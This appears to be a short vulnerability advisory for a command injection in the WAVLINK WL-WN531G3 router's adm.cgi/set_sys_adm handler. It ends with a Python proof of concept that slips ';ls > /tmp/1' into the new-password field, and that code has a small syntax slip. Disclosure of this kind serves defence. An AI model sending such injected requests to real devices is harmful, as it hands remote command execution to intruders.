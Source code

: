 # command injection

## WAVLINK_WL_WN531G3_A

version: 20220801

## Description:

There is a command injection in adm.cgi/set_sys_adm

## Source:

you may download it from : 

https://www.wavlink.com/en_us/firmware/details/c85755a050.html

## Analyse:

![](1.png)

get value from SYSPASS

![](2.png)

if password is correct and new passwd is changed, get into else

![](3.png)

finally, call system, cause command injection

## POC

```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = ';ls > /tmp/1  ' + '\n'

r = requests.post(url, data={ 'page':'sysAdm', 'newpass': + payload, 'SYSPASS':'your password'})
```
